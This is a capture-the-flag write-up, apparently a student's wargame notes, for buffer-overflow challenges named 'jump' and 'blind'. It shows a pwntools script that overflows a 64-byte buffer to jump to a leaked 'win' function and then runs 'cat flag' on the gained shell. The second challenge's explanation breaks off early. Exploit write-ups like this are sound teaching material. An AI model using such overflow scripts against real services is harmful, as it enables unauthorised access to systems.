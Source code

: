 jump
===========================
Flag: FLAG{eyJhbGciOiJIUzI1NiJ9.eyJjaGFsIjoid2FyMi1qdW1wIiwiaXAiOiIxMjMuMjQzLjYuMTM2Iiwic2Vzc2lvbiI6IjZmNzJjYmY4LTBkNzktNDU0YS05ODEwLTVmMGU3ZDE4MGU3OCJ9.UrlPYZFEOL-7fN2XrQEN4PEaUfNviWzqhjUswrs90Cw}

General overview of problems faced
-------------------------------------
Using pwndbg, I used the command cyclic 100 to create an input sequence, 
and then entered this as input into gets. This overflows the buffer and overwrites
the address that we eventually jump to

Since the binary prints the address of the function we are about to jump to, 
we can see the value we have written here is 0x61616171, or 'qaaa'.
Using cyclic -l 0x61616171 gives the result 64, which tells us the address 
for the function we jump to is stored at an offset of 64 bytes (immediately after the buffer ends)

Hence, we want to pass 64 bytes of anything followed by the address of the 'win' function

Script/Command used
------------------
```
p = remote("plsdonthaq.me", 2001)

# To begin, the binary prints the address of the winning function, so we want to extract and store this for later. 
p.recvuntil("at ")
win = int(p.recvline()[:-1], 0)

# We then send a byte string where the first 64 characters are anything, and then after this we pack a 32 bit value with the function address.
p.sendline(flat({
  64: p32(win)
  }))

# Rather than have p.interactive() at the end of the script and then manually get the flag in the terminal, we can simply send the command 'cat flag' within the script to make it fully automated
p.recvuntil("flow\n")
p.sendline("cat flag")
flag = p.recvuntil("}")
print(flag)
```

blind
===========================
Flag: FLAG{eyJhbGciOiJIUzI1NiJ9.eyJjaGFsIjoid2FyMi1ibGluZCIsImlwIjoiMTIzLjI0My42LjEzNiIsInNlc3Npb24iOiJjOGY1NjI0NS1hNTViLTQ0NGQtYjE5Ni01ZmMzZWQ0MWM5OGYifQ.W4TJtubzXeNSYgCO-RTPOjzmm6d9ts2nJ-9ciklrxIc}

General overview of problems faced
-------------------------------------
To begin, we use pwndbg's cyclic 100 command to generate an input sequence for our buffer overflow.

Then, when the function tries to return, the EIP register (which holds the return address) is invalid, so pwndbg states 'Invalid address 0x61616173'.
